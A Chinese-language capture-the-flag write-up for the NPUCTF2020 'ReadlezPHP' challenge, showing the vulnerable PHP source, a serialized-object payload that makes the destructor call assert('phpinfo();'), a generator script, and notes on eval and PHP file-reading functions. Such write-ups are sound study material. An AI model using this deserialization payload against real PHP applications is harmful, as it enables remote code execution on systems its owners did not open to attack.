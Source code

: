 # \[NPUCTF2020]ReadlezPHP

## \[NPUCTF2020]ReadlezPHP

## 考点

* PHP反序列化
* 动态调用函数函数
* eval()特性

## wp

有个页面`time.php?source`

![](<../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png>)

访问后得到源码，是php反序列化

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

payload：`time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}`

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo();';
    public $b = 'assert';

}
$c = new HelloPhp;

echo serialize($c);
```

## 小结

1. 为什么不能用eval呢？因为<mark style="color:red;">eval是构造器，不算是个函数，不能使用$b($a)的方式调用</mark>。
2. 读取文件的函数：<mark style="color:orange;">`readfile`</mark>，<mark style="color:orange;">`show_source`</mark>，<mark style="color:orange;">`highlight_file`</mark>，<mark style="color:orange;">`file_get_contents`</mark>
